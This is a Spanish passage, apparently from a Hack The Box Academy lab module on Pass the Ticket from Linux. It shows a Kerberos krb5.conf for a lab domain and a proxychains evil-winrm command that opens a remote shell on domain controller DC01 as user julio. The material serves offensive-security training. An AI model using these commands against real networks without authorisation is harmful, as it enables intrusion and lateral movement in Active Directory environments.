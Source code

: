 ### **Reino de Versión 5 de Kerberos predeterminado**

![](https://academy.hackthebox.com/storage/modules/147/kerberos-realm.jpg)

Los servidores Kerberos pueden estar vacíos.

### **Servidor administrativo para su reino de Kerberos**

![](https://academy.hackthebox.com/storage/modules/147/kerberos-server-dc01.jpg)

En caso de que el paquete`krb5-user`ya está instalado, necesitamos cambiar el archivo de configuración`/etc/krb5.conf`Para incluir los siguientes valores:

### **Archivo de configuración de Kerberos para inlanefreight.htb**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ cat /etc/krb5.conf[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>

```

Ahora podemos usar Evil-Winrm.

### **Usando Evil-Winrm con Kerberos**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ proxychains evil-winrm -i dc01 -r inlanefreight.htb[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completionInfo: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01

```

---